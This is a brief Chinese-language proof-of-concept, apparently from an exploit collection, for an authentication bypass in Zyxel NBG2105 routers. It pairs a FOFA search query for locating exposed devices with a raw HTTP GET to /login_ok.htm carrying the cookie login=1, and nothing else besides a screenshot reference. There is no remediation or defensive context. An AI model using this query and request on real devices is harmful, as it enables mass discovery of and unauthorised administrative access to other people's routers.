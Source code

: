 # Zyxel NBG2105 身份验证绕过

## 资产搜索：

fofa app="ZyXEL-NBG2105"

## POC：
访问`url/login_ok.htm` cookie设置为`login=1`
```shell
GET /login_ok.htm HTTP/1.1
cookie:login=1
```
!()[img/passlogin.jpg]
